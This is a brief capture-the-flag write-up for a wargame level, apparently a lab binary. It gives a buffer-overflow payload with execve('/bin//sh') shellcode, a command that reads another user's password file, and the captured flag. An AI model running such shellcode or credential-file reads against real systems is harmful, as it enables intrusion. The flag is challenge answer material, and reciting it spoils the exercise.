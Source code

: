 # Level 9

`./level9 $(python -c 'print "\x10\xa0\x04\x08\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80" + "a" * 81 + "\x0c\xa0\x04\x08"')`
`cat /home/user/bonus0/.pass`

**Flag:** `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
